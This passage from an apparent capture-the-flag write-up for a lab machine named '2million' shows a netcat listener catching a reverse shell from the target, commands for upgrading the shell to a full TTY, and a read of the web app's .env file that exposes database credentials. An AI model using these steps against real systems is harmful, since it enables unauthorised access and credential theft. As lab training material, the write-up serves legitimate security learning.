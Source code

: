 We listen using **netcat**.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.181.190] 50890
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Once the reverse shell connects, we will make the TTY treatment to work more comfortably (this is optional but highly recommended).

```
script /dev/null -c bash
```

Press `ctrl`+`z`

```
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Let's start by listing the files in the web directory.

```
ls -la

total 56
drwxr-xr-x 10 root root 4096 Sep 29 11:00 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Sep 29 11:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

We see the `.env` file, where environment variables are stored (usually database keys or other sensitive data).

```
cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
